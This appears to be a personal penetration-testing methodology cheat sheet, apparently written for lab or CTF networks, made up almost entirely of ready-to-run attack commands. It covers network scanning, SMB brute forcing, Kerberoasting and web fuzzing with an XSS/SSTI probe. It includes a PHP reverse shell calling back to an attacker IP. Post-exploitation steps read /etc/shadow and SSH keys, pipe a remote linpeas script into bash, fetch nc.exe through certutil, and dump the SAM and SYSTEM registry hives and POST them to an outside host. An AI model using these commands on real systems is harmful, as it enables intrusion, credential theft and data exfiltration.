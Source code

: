 
My Methodology


<details>
    <summary>Host Discovery (External)</summary>
    
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
    for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary>Host Discovery (Internal)</summary>
    
    fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
    for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary>Service Enumeration</summary>
    
    nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
    ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
    nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
    mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
    impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
    impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
    impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
    impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password
    
    for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
        do mkdir -p "/dev/shm"/mnt"$x"
        sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
        tree -puga "/dev/shm"/mnt"$x"
    done
</details>

<details>
    <summary>Web Enumeration</summary><p>
    ## _formatted_ **Technology Discovery** with [a](link)
    
    whatweb http://10.10.110.100
    
    [*] WordPress Discovery
    wpscan --url http://10.10.110.100/wordpress --enumerate
    
    [*] Directory Discovery
    ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
    -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
    [*] Directory Traversal
    ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
    -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
    [*] XSS + SSTI
    <img src=x>'"${{7*7}}
    
    [*] Subdomain Discovery
    gobuster vhost --append-domain -u example.com -k -r -t200 -q \
    -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
    | grep -oP '(?<=Found: )[^ ]+'
</p></details>

<details>
    <summary>Exploitation</summary>
    
    [*] Reverse Shells
    <?php
        $lhost = "10.10.16.3";
        $lport = 4444;
        
        exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
        $sock = fsockopen($lhost, $lport);
        if ($sock) {
            exec("sh <&3 >&3 2>&3");
            }
    ?>
    
    [*] Upgrade TTY
    python3 -c 'import pty; pty.spawn("/bin/bash")';
    CTRL-Z
    stty size;stty raw -echo;fg
    export SHELL=bash;
    export TERM=xterm-256color;
    stty rows <num> columns <num>
    reset
</details>

<details>
    <summary>Post Exploitation</summary>
    
    [*] Linux
    ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
    netstat -tuln
    ls -la /opt
    sudo -l
    find / -perm /4000 2>/dev/null
    grep -r -E 'conf' /var/www
    cat ~/.ssh/id_rsa
    cat /etc/shadow
    curl xxxxxxxxxx:8088/linpeas.sh | bash
    GTFO bins
    
    [*] Windows
    evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
    evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
    cd C:\users
    tree /f
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"
    
    click.url
    [InternetShortcut]
    URL=C:\programdata\shell.bat
    
    meterpreter > use priv
    meterpreter > getsystem
    
    nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
    '
    powershell -c rm *.SAV
    powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
    powershell -c reg save HKLM\SAM SAM.SAV
    powershell -c compress-archive *.SAV SAM.zip
    powershell -c dir
    iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
    '; unzip -o SAM.zip; \
    impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV
    
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
    powershell Import-Module C:\programdata\powerview.ps1
    Get-NetDomain
    Get-LocalUser
    Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
    bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
    bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
</details>
